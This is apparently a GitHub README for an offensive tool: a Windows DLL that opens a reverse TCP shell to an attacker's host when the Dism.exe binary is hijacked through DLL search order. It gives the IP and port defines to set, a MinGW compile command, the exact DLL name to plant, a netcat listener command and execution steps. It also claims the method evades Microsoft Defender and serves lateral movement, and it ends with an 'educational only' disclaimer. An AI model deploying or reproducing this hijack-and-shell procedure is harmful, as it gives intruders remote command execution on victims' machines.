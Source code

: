 # Windows DLL Reverse Shell – Dism.exe Hijacking Demo

A minimal Windows DLL that establishes a reverse TCP shell connection to a specified host and port.
Used in a controlled lab to demonstrate **DLL hijacking** through the legitimate Windows binary `Dism.exe`.

## Overview

This DLL connects back to a remote listener and redirects the `cmd.exe` process I/O through the socket, providing remote command execution over TCP.
When placed in the same directory as `Dism.exe`, the process will automatically load it on startup, triggering the reverse shell.

## Configuration

Edit the following values in the source before compilation:

```c
#define REVERSEIP "127.0.0.1"
#define REVERSEPORT 5151
```

Replace them with the attacker's IP and listening port.

## Compilation

Compile using MinGW:

```bash
x86_64-w64-mingw32-gcc -shared reverse_shell.c -o DismCore.dll -lws2_32
```

## DLL Hijacking Demonstration

1. Copy the legitimate binary **`C:\Windows\System32\Dism.exe`** to any writable directory (e.g. Desktop or a test folder).
2. Place the compiled reverse shell DLL in that same folder and **name it exactly `DismCore.dll`**.
3. Start a listener on your attack machine:

   ```bash
   nc -lvnp 5151
   ```
4. Execute the copied `Dism.exe`.
   It will attempt to load `DismCore.dll` from the current directory, find yours, and execute it.
   The reverse shell will connect back to your listener.

## Compatibility

Tested successfully on **Windows 11 (build 26100+)** with **Microsoft Defender (latest version, 2025)**.
The demonstration works without immediate detection, showing how DLL search order can be exploited for local privilege abuse or lateral movement scenarios.

## Notes

This project is for **educational and research purposes only**.
Do not deploy or distribute outside of controlled, authorized environments.

---
